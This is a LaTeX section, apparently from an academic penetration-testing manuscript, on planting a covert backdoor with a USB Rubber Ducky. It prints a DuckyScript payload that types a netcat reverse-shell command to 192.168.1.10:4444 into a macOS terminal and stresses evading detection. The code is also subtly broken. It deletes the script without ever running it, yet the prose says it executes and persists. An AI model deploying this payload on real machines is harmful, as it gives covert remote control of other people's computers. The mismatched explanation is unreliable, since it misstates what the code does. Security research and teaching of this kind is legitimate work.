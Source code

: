\documentclass[manuscript,acmsmall,anonymous,review,screen,nonacm=true, authorversion=true]{acmart}
\begin{document}
\subsubsection{Creating A Backdoor}
In the critical phase of maintaining prolonged access within a penetration test, the
creation of a backdoor stands out as a strategic maneuver. This procedure involves
embedding a covert pathway within the target system enabling seamless re-entry for the tester
without the need for repetitive breach efforts. Essentially, it’s like discreetly planting
a hidden key to the back gate of a fortified castle allowing unobstructed access at will. This backdoor is intricately designed to evade detection by conventional security measures
such as system checks or malware detectors ensuring that the tester can gather necessary data,
monitor system activities, or further assess vulnerabilities over time. The objective
here is not to compromise the system’s integrity but to highlight potential security gaps that
could be exploited by malicious entities.
\begin{figure}
   \begin{verbatim}
REM Title: Execute Backdoor Access
REM Author: V3NN
REM Description: Opens Terminal, writes, executes, and deletes a bash script.
REM Declare the attackmode to be used for storage and human interface device
ATTACKMODE HID STORAGE
DELAY 1000

GUI SPACE
DELAY 200
STRING Terminal
DELAY 200
ENTER
DELAY 1000
STRING echo "mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.10 4444 > /tmp/f" > /tmp/script.sh
DELAY 200
ENTER
STRING chmod +x /tmp/script.sh
DELAY 200
ENTER
STRING rm /tmp/script.sh
DELAY 200
ENTER
STRING exit
DELAY 200
ENTER
\end{verbatim}
    \caption{Code Segment 1. Sample Code For Setting Up Reverse Shell Using Rubber Ducky}
    \label{fig:enter-label}
\end{figure}
This script tailored for the USB Rubber Ducky automates the process of opening a terminal on a macOS system and establishes a covert backdoor for remote infiltration. Initially, the script employs the GUI SPACE command to open Spotlight then types "Terminal" to launch it simulating user actions to start a terminal session. The core of the script involves creating and executing a Bash script named /tmp/script.sh that initiates a reverse shell connection to a specified IP address on port 4444. This effectively grants the ability to remotely execute commands on the target machine. The script ensures that the Bash file is executable and then immediately deletes it to remove any trace of the operation, concluding with an exit from the terminal to maintain stealth. This approach not only sets up a persistent backdoor but also cleans up after itself to avoid detection.
\end{document}
